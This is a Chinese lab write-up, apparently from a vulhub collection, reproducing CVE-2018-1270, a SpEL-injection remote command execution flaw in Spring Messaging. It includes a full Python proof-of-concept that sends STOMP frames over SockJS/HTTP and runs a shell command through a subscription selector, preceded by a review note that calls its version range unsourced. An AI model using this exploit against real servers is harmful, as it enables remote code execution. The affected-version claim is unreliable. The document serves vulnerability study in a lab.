


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：写 Spring Java Framework &lt;5.0，范围过粗且缺来源，无法覆盖精确分支及修复版本

代码与实验材料：完整 Python3.6 脚本与四项应用相关配置说明，截图结果未视检；未运行

来源证据范围：只有 STOMP/SockJS 技术链接，正文第一人称编写声明未提供作者归属

- **事实待核（1）**：版本范围不可靠；依据：仅写 Spring Java Framework &lt;5.0，缺补丁分支和官方依据，不能用于判断 5.x 分支。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **证据待核（2）**：转载归属和图片标记需清理；依据：保留“我编写”但未署名来源；结果图片路径后有多余文本。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2018-1270）Spring Messaging 远程命令执行漏洞
==================================================

一、漏洞简介
------------

spring
messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，

在spring
messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。

二、漏洞影响
------------

Spring Java Framework \< 5.0

三、复现过程
------------

网上大部分文章都说spring messaging是基于websocket通信，其实不然。spring
messaging是基于sockjs（可以理解为一个通信协议），而sockjs适配多种浏览器：现代浏览器中使用websocket通信，老式浏览器中使用ajax通信。

连接后端服务器的流程，可以理解为：

1.  用[STOMP协议](http://jmesnil.net/stomp-websocket/doc/)将数据组合成一个文本流
2.  用[sockjs协议](https://github.com/sockjs/sockjs-client)发送文本流，sockjs会选择一个合适的通道：websocket或xhr(http)，与后端通信

所以我们可以使用http来复现漏洞，称之为"降维打击"。

我编写了一个简单的POC脚本exploit.py（需要用python3.6执行），因为该漏洞是订阅的时候插入SpEL表达式，而对方向这个订阅发送消息时才会触发，所以我们需要指定的信息有：

1.  基础地址，在vulhub中为`http://your-ip:8080/gs-guide-websocket`
2.  待执行的SpEL表达式，如`T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')`
3.  某一个订阅的地址，如vulhub中为：`/topic/greetings`
4.  如何触发这个订阅，即如何让后端向这个订阅发送消息。在vulhub中，我们向`/app/hello`发送一个包含name的json，即可触发这个事件。当然在实战中就不同了，所以这个poc并不具有通用性。

根据你自己的需求修改POC。如果是vulhub环境，你只需修改1中的url即可。

    CVE-2018-1270.py
    #!/usr/bin/env python3
    import requests
    import random
    import string
    import time
    import threading
    import logging
    import sys
    import json

    logging.basicConfig(stream=sys.stdout, level=logging.INFO)

    def random_str(length):
        letters = string.ascii_lowercase + string.digits
        return ''.join(random.choice(letters) for c in range(length))

    class SockJS(threading.Thread):
        def __init__(self, url, *args, **kwargs):
            super().__init__(*args, **kwargs)
            self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
            self.daemon = True
            self.session = requests.session()
            self.session.headers = {
                'Referer': url,
                'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
            }
            self.t = int(time.time()*1000)

        def run(self):
            url = f'{self.base}/htmlfile?c=_jp.vulhub'
            response = self.session.get(url, stream=True)
            for line in response.iter_lines():
                time.sleep(0.5)
        
        def send(self, command, headers, body=''):
            data = [command.upper(), '\n']

            data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
            
            data.append('\n\n')
            data.append(body)
            data.append('\x00')
            data = json.dumps([''.join(data)])

            response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
            if response.status_code != 204:
                logging.info(f"send '{command}' data error.")
            else:
                logging.info(f"send '{command}' data success.")

        def __del__(self):
            self.session.close()

    sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
    sockjs.start()
    time.sleep(1)

    sockjs.send('connect', {
        'accept-version': '1.1,1.0',
        'heart-beat': '10000,10000'
    })
    sockjs.send('subscribe', {
        'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
        'id': 'sub-0',
        'destination': '/topic/greetings'
    })

    data = json.dumps({'name': 'vulhub'})
    sockjs.send('send', {
        'content-length': len(data),
        'destination': '/app/hello'
    }, data)

执行：

SpringMessaging远程命令执行漏洞/media/rId26.png)

进入容器`docker-compose exec spring bash`，可见`/tmp/success`已成功创建：

SpringMessaging远程命令执行漏洞/media/rId27.png)
